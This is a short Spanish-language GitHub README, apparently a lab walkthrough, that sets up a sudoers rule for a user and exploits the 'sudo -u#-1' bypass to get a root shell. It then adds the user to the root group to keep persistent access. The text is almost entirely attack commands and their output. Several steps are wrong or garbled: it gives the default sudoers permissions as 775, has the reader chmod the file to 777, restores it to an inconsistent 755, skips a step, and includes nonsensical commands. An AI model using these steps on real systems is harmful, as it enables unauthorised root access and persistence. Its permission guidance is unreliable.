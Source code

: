 <img style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/sudo/blob/master/sudo.png">

#0.- Por defecto /etc/sudoers tiene permisos chmod 775. 

Intentamos para editar sin problemas el fichero sudoers $chmod 777 /etc/sudoers  y volvemos a restablecer después los privilegios chmod 755 /etc/sudoers

#1.- Editamos el fichero /etc/sudoers con 

$usermod -aG sudo antonio

$sudo visudo 

#2.- Añadimos la linea con el usuario antonio 

#User privilege specification

root ALL=(ALL:ALL) ALL

antonio ALL=(ALL) /usr/bin/id

#4.- Ejecutamos: 

$su antonio

$sudo id

$sudo whoani

$sudo -u antonio id

#5.- Volvemos a editar el fichero /etc/sudoers con $sudo visudo

#6.- Modificamos la línea

antonio ALL=(ALL, !root) ALL

#7.- Explotamos la vulnerabilidad con sudo -u#-1

$chmod 755 /etc/sudoers

$sudo -u#-1 /bin/bash

#whoami

root

#8.- ya somos root!

exit

#9.- Otro si: añadimos en la línea sudo de /etc/group a antonio y nos hacernos persistentes en la maquina:

usermod -aG root antonio

$sudo antonio

$sudo su

#10.- ya somos del grupo sudo y podemos elevar a root!

Editamos y eliminamos de sudoers la linea
antonio ALL=(ALL, !root) ALL
